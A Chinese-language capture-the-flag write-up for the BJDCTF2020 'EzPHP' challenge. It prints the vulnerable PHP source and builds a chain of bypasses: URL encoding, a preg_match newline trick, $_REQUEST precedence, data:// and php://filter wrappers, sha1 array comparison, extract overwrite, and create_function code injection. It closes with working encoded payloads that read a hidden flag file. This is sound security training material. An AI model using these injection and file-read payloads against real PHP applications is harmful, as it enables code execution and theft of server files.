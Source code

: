 # [BJDCTF2020]EzPHP

## 知识点

`php代码审计`

`$_SERVER`

`preg_match`

`$_REQUEST`

`file_get_contents`

`extract变量覆盖`

`create_function`

## 解题

在源码里`base64`解密后发现`1nD3x.php`，进入`1nD3x.php`发现一串源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
This is a very simple challenge and if you solve it I will give you a flag. Good Luck!
Aqua is the cutest five-year-old child in the world! Isn't it ?
```

一个个的绕过

### $_SERVER['QUERY_STRING']绕过

```php
if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}
```

 `?`之后的字符就是，不管输入什么。它有一个特性：它不会对`url`编码进行`解码`。所以这里直接`url编码绕过`

![](./img/[BJDCTF2020]EzPHP-2.png)

### preg_match绕过

```php
if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!'); 
```

若`preg_match('/^.*$/',subject)`，`preg_match`只会匹配第一行。参考文章：[戳我](https://www.cnblogs.com/20175211lyz/p/12198258.html)，在`debu`参数后加`%0a`即可。

![](./img/[BJDCTF2020]EzPHP-3.png)

### $_REQUEST绕过

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
}  
```

它接收`$_GET`和`$_POST`的数据，如果`get`和`post`一样的参数名，它会优先选择`post`形式传入的参数的值。

![](./img/[BJDCTF2020]EzPHP-4.png)

### file_get_contents

```php
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>"); 
```

#### 1.php://input

![](./img/[BJDCTF2020]EzPHP-5.png)

#### 2.data://

![](./img/[BJDCTF2020]EzPHP-6.png)

![](./img/[BJDCTF2020]EzPHP-7.png)

#### sha数组绕过及extract变量覆盖

```php
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
} 
```

![](./img/[BJDCTF2020]EzPHP-8.png)

#### create_function

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
}
```

> `create_function()`函数有两个参数`$args`和`$code`，用于创建一个`lambda`样式的函数

比如：

```php
$myfunc = create_function('$a, $b', 'return $a+$b;');
```

相当于：

```php
function myfunc($a, $b){
    return $a+$b;
}
```

但是如果第二个参数没有限制（`$code=return$a+$b;}eval($_POST['cmd']);//`），就会变成：

```php
function myfunc($a, $b){
  return $a+$b;
}eval($_POST['cmd']);//}
```

通过手工闭合`}`使后面的代码`eval()`逃逸出了`myFunc()`得以执行，然后利用注释符`//`注释掉`}`保证了语法正确。

这道题就可以用`flag[code]=create_function`来创建一个函数，用`flag[arg]`去闭合它，然后用`get_defined_vars`函数去返回由所有已定义变量所组成的数组，别忘记最后注释掉后面的内容保证语法准确。

```php
?file=data://text/plain,base64,ZGVidV9kZWJ1X2FxdWE=&debu=aqua_is_cute%0a
&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//

POST
file=1&debu=2
    
    ?file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67[%63%6f%64%65]=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67[%61%72%67]=%7d%76%61%72%5f%64%75%6d%70%28%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73%28%29%29%3b%2f%2f
```

然后需要读取`rea1fl4g.php`

![](./img/ezPHP-1.png)

1.过滤了`include`和引号，还可以用`require()`

```php
}require(base64_decode(cmVhMWZsNGcucGhw));var_dump(get_defined_vars());//
```

buuctf上改了改，把flag给unset了，所以得换种办法

2.伪协议

```php
&rce=php://filter/read=convert.base64-encode/resource=rea1fl4g.php
&flag[arg]=;}require(get_defined_vars()[_GET][rce]);//

//POST记得加个rce=2
//读取get_defined_vars()里的['_GET'][rce]，然后include出来。
//如果只是require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php)是不行的。中间的伪协议串需要取反/异或来绕过最后一个正则
```

```php
&%66%6c%61%67[%61%72%67]=%3b%7d%72%65%71%75%69%72%65%28%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73%28%29%5b%5f%47%45%54%5d%5b%72%63%65%5d%29%3b%2f%2f
&rce=%70%68%70%3a%2f%2f%66%69%6c%74%65%72%2f%72%65%61%64%3d%63%6f%6e%76%65%72%74%2e%62%61%73%65%36%34%2d%65%6e%63%6f%64%65%2f%72%65%73%6f%75%72%63%65%3d%72%65%61%31%66%6c%34%67%2e%70%68%70
```

![](./img/ezPHP-2.png)

3.取反+伪协议

取反可直接绕过正则

```php
php://filter/read=convert.base64-encode/resource=rea1fl4g.php取反一下

;}require(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F);//
```

异或不行，禁了`^`

4.`define`定义变量，fopen、fgets读取内容

```php
;}define(aaa,fopen(~(%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f),r));while(!feof(aaa))var_dump(fgets(aaa));fclose(aaa);//
```

[参考文章](https://syunaht.com/p/3645611024.html)
